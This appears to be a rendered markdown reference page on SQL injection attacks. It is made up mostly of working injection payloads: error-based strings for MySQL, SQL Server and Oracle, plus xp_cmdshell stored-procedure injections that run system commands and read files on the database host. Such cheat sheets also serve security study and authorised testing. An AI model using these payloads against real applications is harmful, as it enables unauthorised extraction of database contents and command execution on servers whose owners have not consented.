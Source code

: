 # Various Types of SQL Injection Attacks

## In-Band SQL Injection

In-band SQL injection is the most common and straightforward type where the attacker uses the same communication channel to launch the attack and gather results. The attacker can see the results directly in the application's response.

### Error-Based SQL Injection

Error-based injection relies on database error messages to gather information about the database structure.

#### Mechanism
- Triggers database errors intentionally
- Extracts information from error messages
- Uses database-specific functions to cause errors

#### Common Techniques

**MySQL Error-Based**
```sql
-- Trigger error with extractvalue()
' AND extractvalue(1, concat(0x7e, (SELECT user()), 0x7e))--

-- Double query technique
' UNION SELECT 1, count(*), concat((SELECT version()), 0x3a, floor(rand()*2)) as a FROM information_schema.tables GROUP BY a--
```

**SQL Server Error-Based**
```sql
-- Convert function error
' AND 1=CONVERT(int, (SELECT @@version))--

-- Cast function error
' AND 1=CAST((SELECT user_name()) as int)--
```

**Oracle Error-Based**
```sql
-- UTL_INADDR.GET_HOST_NAME error
' AND 1=UTL_INADDR.GET_HOST_NAME((SELECT user FROM dual))--

-- CTXSYS.DRITHSX.SN error
' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT user FROM dual))--
```

### System Stored Procedure Injection

Exploits database-specific stored procedures to execute system commands or gather information.

#### SQL Server Stored Procedures
```sql
-- Execute system commands
'; EXEC xp_cmdshell 'dir c:\'--

-- Read files
'; EXEC xp_cmdshell 'type c:\windows\system32\drivers\etc\hosts'--

-- Network enumeration
'; EXEC xp_cmdshell 'ping -n 1 192.168.1.1'--
```
